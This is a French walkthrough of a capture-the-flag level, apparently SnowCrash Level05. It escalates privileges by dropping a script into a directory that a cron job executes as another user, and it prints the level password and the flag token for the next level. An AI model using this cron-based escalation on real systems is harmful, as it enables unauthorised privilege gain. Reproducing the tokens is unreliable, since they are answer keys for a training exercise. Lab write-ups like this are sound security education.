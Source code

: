 # Level05

> login:password -> *`level05:ne2searoevaevoem4ov4ar8ap`*
```
:~$ su level05
Password:ne2searoevaevoem4ov4ar8ap
```
---

```
:~$ pwd
/home/user/level05
```

```
:~$ ls -la
...
```

Le Home est vide mais on a peu être averti qu'un mail nous attends:

```
:~$ ssh level05@localhost -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15
level05@localhost's password:
You have new mail.
```

On va donc essayer de voir ce mail

```
:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Ce mail nous informe qu'une tache cron est planifié et qu'elle execute le script `/usr/sbin/openarenaserver` toutes les 2min sur le user flag05

```
:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

On remarque alors que le script exécute tous les fichiers présents dans `/opt/openarenaserver/` avec `bash`, puis les supprime. Il suffit alors d'y ajouter notre propre script qui exécutera alors la commande `getflag` et conservera son résultat dans un dossier qui lui ne se supprimera pas, par exemple `/tmp/flag`.

```
:~$ echo "getflag > /tmp/flag" > /opt/openarenaserver/getflag
```

On patiente 2min que cron puisse lancer le script

```
:~$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

Le flag nous permet de se connecter au level06
`level06:viuaaale9huek52boumoomioc`